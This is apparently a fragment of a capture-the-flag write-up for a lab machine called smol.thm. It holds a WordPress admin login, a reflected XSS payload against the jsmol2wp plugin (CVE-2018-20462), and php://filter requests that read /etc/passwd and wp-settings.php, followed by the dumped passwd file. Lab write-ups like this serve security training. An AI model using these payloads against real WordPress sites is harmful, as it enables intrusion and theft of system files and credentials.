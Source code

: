```
http://www.smol.thm/wp-admin/
```
user:
```
wpuser
```
password:
```
kbLSF2Vop#lw3rjDZ629*Z%G
```

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=saveFile&data=<script>alert(/xss/)</script>&mimetype=text/html; charset=utf-8
```
	### Vulnerabilità di Cross-Site Scripting riflesso (XSS) (CVE-2018-20462)

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=/etc/passwd
```


```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-settings.php
```

```
root:x:0:0:root:/root:/usr/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
think:x:1000:1000:,,,:/home/think:/bin/bash
fwupd-refresh:x:113:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
xavi:x:1001:1001::/home/xavi:/bin/bash
```